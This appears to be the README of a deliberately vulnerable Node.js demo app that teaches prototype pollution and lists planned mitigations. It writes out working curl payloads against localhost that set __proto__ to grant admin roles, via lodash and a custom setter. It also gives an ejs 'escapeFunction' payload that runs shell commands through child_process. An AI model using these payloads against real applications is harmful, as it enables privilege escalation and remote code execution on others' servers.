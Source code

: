 # Proto App

Application showcasing prototype pollution vulnerabilities in node.js

## TODO

- Write expolits as tests to easily showcase vulnerabilities (and mitigation):
    - DOS exploit of indirect and direct vulnerability 
    - RCE exploit
- Add RCE Vulnerability:
    - ejs
- Exploit html-sanitizer
- Indirect and direct mitigations:
    - Object.freeze:
    - Schema Validation
    - Using Map instead of Object for key-value data storage
- Compare security scanner outputs

## DONE
- Vulnerabilies:
    - Direct protyotype pollution (set function)
    - Indirect prototype pollution (lodash)
- exploits / commands:
    - create normal user: 
        curl -X POST http://localhost:3000/register -H "Content-Type: application/json" -d '{"username": "normaluser", "password": "normalpassword"}'
    - indirect prototype pollution:
        curl -X POST http://localhost:3000/register -H "Content-Type: application/json" -d '{"__proto__": {"role": "admin"}, "username": "normaluser", "password": "normalpassword"}'
    - direct prototype pollution: 
        curl -X POST http://localhost:3000/update/`id` -H "Content-Type: application/json" -d '{"path": "__proto__.role", "value": "admin"}'
    - check pollution (get user by id):
        curl http://localhost:3000/users/1/role
    - RCE exploit:
        - curl -X POST http://localhost:3000/register -H "Content-Type: application/json" -d '{"__proto__": {"client":"true", "escapeFunction":"console.log(`POLLUTED`)"}, "username": "normaluser", "password": "normalpassword"}'
curl -X POST http://localhost:3000/register -H "Content-Type: application/json" -d '{"__proto__": {"client":"true", "escapeFunction":"console.log(process.mainModule.require(`child_process`).execSync(`ls -la`))"}, "username": "normaluser", "password": "normalpassword"}'
        

## Vulnerable Packages
- lodash:
    - 4.17.17 (fixed version)
    - prototype pollution exploit
- 

